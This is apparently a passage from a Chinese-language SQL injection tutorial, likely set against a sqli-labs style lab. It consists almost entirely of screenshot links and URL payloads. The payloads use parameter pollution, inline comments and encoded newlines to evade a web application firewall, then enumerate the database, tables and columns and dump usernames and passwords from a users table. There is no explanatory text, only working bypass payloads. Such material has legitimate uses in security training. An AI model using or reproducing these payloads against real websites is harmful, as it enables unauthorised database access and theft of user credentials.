 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHswHR1QqltliaTadVdd4zyjjrDtLNzIr3tlLIGzdH0Ts8D2KvOiaicZhzhg/640?wx_fmt=png)

```
#字段名
?id=1/\*\*&id=-1%20union%20select%201,group\_concat(column\_name),3 from information\_schema.columns where table\_name=0x7573657273%23\*/

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsiaepP6ibBhwNT6HZHU6RI7W8mgVtPYBibRHibR7LNNXnCfLaX3r029K1OQ/640?wx_fmt=png)  

```
#字段内容
?id=1/\*\*&id=-1%20union%20select%201,group\_concat(0x7e,username,password),3 from users%23\*/

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsdHAQAL303m1oUTeZaWpBDgPSovXwVVgkmvJf12u2lx6y7kica8jhZ4Q/640?wx_fmt=png)  

```
#字段数
?id=1%20order%20%23%0a%20by%203%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsF54Q6uTPS4XzgiabeOSY1licVj1g5HObXwibQ4d3v7dXGNKib2a6ewy9PA/640?wx_fmt=png)  

```
#数据库
?id=-1%20union%20all%23%0a%20select%201,database%23%0a(),3%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsGMfoye6lsjPrialjuNibbm0uYjEOVHKkuyvib0YDGsTydajzs52ADmJbQ/640?wx_fmt=png)  

```
#表名
?id=-1%20union%20all%23%0a%20select%201,group\_concat(%23%0atable\_name),3 from information\_schema.tables where table\_schema=0x7365637572697479%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsHCXCiaHeZ7Nr602uuCw20TWtMiaQtEfEugNMV6NbA9JGy1eupZ9U51wA/640?wx_fmt=png)

```
#字段名
?id=-1%20union%20all%23%0a%20select%201,group\_concat(%23%0acolumn\_name),3 from information\_schema.columns where table\_name=0x7573657273%23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHsPIicMYrJlfibic9QoOY4QqMuicaoKT8qYm4HY41qH2vLicYM56iaCr4IHXRw/640?wx_fmt=png)  

```
#字段内容
?id=-1%20union%20all%23%0a%20select%201,group\_concat(%23%0a0x7e,username,password),3 from users%23

```
